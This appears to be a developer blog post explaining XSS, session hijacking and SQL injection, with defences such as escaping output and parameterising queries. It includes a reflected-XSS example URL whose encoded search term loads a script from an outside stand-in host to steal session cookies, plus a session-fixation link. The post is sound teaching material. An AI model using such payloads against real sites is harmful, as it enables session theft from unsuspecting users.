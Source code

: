 ```yaml
---
layout: post
title:  "Understanding Web Application Security"
date:   2017-09-13 09:39:37 +0300
description: "
There are quite a lot of senior developers that when it comes to web application security they rely on whatever framework they are using to take care of that for them, but don't really have an understanding of what's happening behind the scenes. Web application security is quite a complex topic, we will be covering: 1. Cross-site scripting, also called XSS scripting, 2. Session hijacking, 3. SQL Injection. Both cross-site scripting and SQL injection are cases of code injection...
"
icon: "lock.png"
categories:
---
```

I can testify that a lot of people confined in me they considered doing this (including yours truly) under the frustration of the bi-monthly administrative policies that mandated we change our workstation password:

![image-title-here](/images/my-password.jpg){:class="img-responsive"}

This sort of thing happens more than you would imagine—what a lot of people don't know is that hackers rely a lot on social engineering to gain access to systems. Mitnick was famous for calling in, pretending to be somebody he wasn't and asking for somebody's password in order to "perform some maintainance".

## Phishing
If you've followed the US 2016 election cycle news, you might have heard that John Podesta was hacked. We was actually the victim of a *phising* scam whereby he received an email made to look like an email from Google (he was using Gmail) that informed him that he needed to change his password because unauthorized access to his account was detected. He fell for it, clicked on the link which redirected him to a page that looked like a Google page (he didn't pay attention to the URL it seems), and he entered his old and *supposedly* new credentials.

*But this is a scam, it's not what I wanted to talk about, because YOU as a developer cannot do anything about it. I actually want to talk about REAL  vulnerabilities in the software and how they can be addressed, which means understanding the vectors attackers have at their disposal.*

There are quite a lot of senior developers that when it comes to web application security they rely on whatever framework they are using to take care of that for them, but don't really have an understanding of what's happening behind the scenes. Web application security is quite a complex topic, we will be covering:

1. Cross-site scripting, also called XSS scripting

2. Session hijacking

3. SQL injection

Both XSS and SQL Injection are cases of *code injection*.

## Cross-Site Scripting
XSS refers to a vulnerabity where an attacker is able to "inject" Javascript code that will be run by the application. In my previous article, I've discussed the [same-origin](http://achiral.io/cors-made-simple) policy concept at length which states that if content from one site is granted permission to access resources on a system, then any content from that site will share these permissions, while content from another site will have to be granted permissions separately. 

A typical example of XSS is *persistent cross-site scripting*. If a page isn't properly *sanitizing* the user input (a field in a for, for example), a user could actually type in valid Javascript code, which is going to be saved by the application in its database and be subsequently rendered everytime it displays a page. Imagine you have a page that is visible to multiple users (such as a product page) which allows for users to add comments. If the page is not escaping user input, it is possible for a malicious user to write actual an script block, which will then be rendered to all users as part of the page HTML. The Javascript code has access to the cookies of that user and it can send that information to the a attacker.

![image-title-here](/images/attack.gif){:class="img-responsive"}

An alternative is the *reflected* (or non-persistent) XSS atack, whereby the user's input is not stored in the database, but returned back in the same way it was inputed. It works like this: say you have a page that allows you to search for products. The user types some text in the search box and clicks the search button which sends a GET request to the server.

<pre>
GET http://www.onlineshop.com?search=something
</pre>

If the site finds something, it returns a list of results, but if it doesn't, it's going to say

*Your search, 'something', returned no results.*

... which is just the original, unaltered string. A crafty attacker might see this vulnerability and might send an email to the user asking him to click on a link which for the search term, contains some nefarious script block. If the user clicks on the link (which is likely because most people don't hover on links to see where they lead to), the application server won't be able to find any result, and will return with a *not found* page containing the script rendered directly on the page. 

<pre>
GET http://www.onlineshop.com?
  search=%3Cscript%2520src%3D%22http%3A%2F%2Fsomesite.com%2Fscript.js%22%3E%3C%2Fscript%3E
</pre>

This script can then hijack the session cookie, like in the previous example.

What can we do about it? Actually two things:

1. Validate inputs: this means checking that the user didn't try to input any funky stuff and warning him if this is the case.
2. Sanitize outputs: everything that's rendered to the bage must be HTML escaped. This means that script blocks will be displayed as text, and won't be part of the DOM, and thus executed.

If you are developing with Node / Express, there are plenty of packages to help you safeguard against XSS attacks, such as [helmet](https://www.npmjs.com/package/helmet) or [xssfilter](https://www.npmjs.com/package/xssfilter) etc.

## Session Hijacking
Most web applications use a session mechanism which allows the server hosting the web application to know which user is making a specific request. Sessions usually involve authenticating the user, creating some sort of *session_id* (usually a string) and setting a cookie with that value on the user's browser. Session hijacking is a way of getting to know that string.

One way to gain access to it is, as I mentioned, cross-site scripting. Another typical way of gaining access to that cookie is by sniffing packets. Since browsers send the cookies asociated with a domain for every request, somebody sniffing traffic would be able to see also the value of the session cookie. A typical way to sniff traffic is to set up an unencrypted wifi hot spot in a public place, and monitor the traffic of the people connecting to it. Does this mean I cannot use my online banking when I am connected to a public hotspot? No, because if the website uses SSL for all requests, the contents of the traffic won't be intelligible to a man-in-the-middle, and usually major sites like Facebook / Twitter, online banking etc. are pretty well secured. There are however plenty of smaller poorly written sites that only use SSL for the login page, and then pass the session cookie unencrypted to other pages.

Another way to gain access to a user's session is to get that user to install a mallware on his/hers computer. Since browsers usually store cookies on disk, that mallware would be able to access the cookie if it knows where to look for it. 

A yet another way of acomplishing session hijacking is *session fixation*. There are plenty of sites that accept a session ID in the URL, such as:

<pre>
http://www.website.com?sid=asb1sadasdasdan23123
</pre>

The reason why they do it is because a lot of users turn of their cookies, ironically, for security reasons. This however would open them up to scams, like somebody sending them an email which says:

<blockquote>
Hey, click on http://www.website.com?sid=asb1sadasdasdan23123, and enter credit card and address information to receive a free bonus on your order.
</blockquote>

Since the attacker knows the session id, he/she can also log to that page and see the information inputed by the user.

## SQL Injection
And last (in our article), but certainly not least, we have SQL injection. I think most of us remember this:

![image-title-here](/images/exploit.png){:class="img-responsive"}

For SQL injection to work, you'd have to be writing your SQL queries using string interpolation / concatenation.

<script src="https://gist.github.com/toaderflorin/e842b81f3e4d1fef85087134717a1571.js"></script>

As you can see, the text fits nicely in the query. The way you get around this is by using parameters, which are supported by all database systems.